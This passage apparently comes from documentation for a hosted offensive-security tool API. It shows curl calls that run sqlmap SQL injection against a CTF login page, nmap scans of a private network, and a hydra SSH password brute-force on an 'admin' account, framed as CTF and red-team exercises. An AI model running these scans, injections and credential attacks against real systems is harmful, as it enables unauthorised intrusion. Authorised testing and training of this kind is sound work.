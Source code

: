 #### Phase 2: Vulnerability Exploitation
```bash
# 2. SQL injection
curl -X POST https://hexstrike-ai-v6-0.onrender.com/api/tools/sqlmap \
  -H "Content-Type: application/json" \
  -d '{
    "url": "http://ctf.target.com/login.php",
    "data": "id=1",
    "techniques": "B",
    "dbs": true
  }'
```

---

## Red Team Exercises

### Scenario 1: Internal Network Penetration

**Objective**: Gain access to internal network resources.

#### Phase 1: Network Discovery
```bash
# 1. Network scanning
curl -X POST https://hexstrike-ai-v6-0.onrender.com/api/tools/nmap \
  -H "Content-Type: application/json" \
  -d '{
    "target": "192.168.1.0/24",
    "scan_type": "comprehensive",
    "ports": "1-65535"
  }'

# 2. Service enumeration
curl -X POST https://hexstrike-ai-v6-0.onrender.com/api/tools/nmap \
  -H "Content-Type: application/json" \
  -d '{
    "target": "192.168.1.100",
    "scan_type": "service_detection",
    "scripts": true
  }'
```

#### Phase 2: Credential Attacks
```bash
# 3. Password cracking
curl -X POST https://hexstrike-ai-v6-0.onrender.com/api/tools/hydra \
  -H "Content-Type: application/json" \
  -d '{
    "target": "192.168.1.100",
    "service": "ssh",
    "username": "admin",
    "wordlist": "passwords.txt",
    "threads": 16
  }'
```
